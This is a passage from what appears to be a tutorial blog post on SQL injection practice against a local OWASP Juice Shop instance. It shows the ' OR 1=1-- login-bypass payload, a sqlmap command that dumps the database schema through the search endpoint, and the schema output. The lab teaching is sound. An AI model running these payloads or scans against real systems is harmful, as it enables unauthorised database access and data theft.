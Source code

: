 The important part of this is the payload. For [an interesting reason](https://medium.com/@christophelimpalair/bypass-admin-login-with-sql-injections-sqlmap-bb60d447a1e2) it's using OR NOT instead of OR, so remove the NOT to make it valid and suddenly it found almost the exact same query as `' OR 1=1--`.

This isn't very useful, we already knew to try `' OR 1=1--`. So let's try it on something more useful.

#### Search

Open up your local version of Juice Shop in a new tab, and then search something. It might not show in the network tab if you use the same tab.

Here's what the search request looks like in LibreWolf:
![Juice Shop search request](/assets/sql-injection/SearchHeader.png)

This time it's a GET request, which makes this whole process so much easier.

First just check out what's at `http://localhost:3000/rest/products/search?q=test` in your browser. It's just a JSON array of products with the word test in them.

Here's what it looks like in LibreWolf:
![Juice Shop search request](/assets/sql-injection/SearchJSON.png)

All in all, this isn't very useful. We could have just searched "" and gotten this all on the regular page.

Let's try getting the database schema.

### Schema

The schema is the structure of the database, including its tables, columns, and relationships.  
It is how you know of all of the different types of data in the database.

To get the schema, use `--schema` with sqlmap.  
It's very slow to get the schema so it's best to use `--threads` and then the amount of threads you want to use to speed it up.

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=test" --level 5 --risk 3 --schema --threads 3 --dbms SQLite --batch
```

This is going to take a while, so go make a hot chocolate or something.

When it's done, it'll tell you where in your file system it saved the schema.

Here's what I got:

```text
back-end DBMS: SQLite
Database: <current>
Table: Memories
[6 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| caption   | VARCHAR  |
| createdAt | DATETIME |
| id        | INTEGER  |
| imagePath | VARCHAR  |
| updatedAt | DATETIME |
| UserId    | INTEGER  |
+-----------+----------+
```
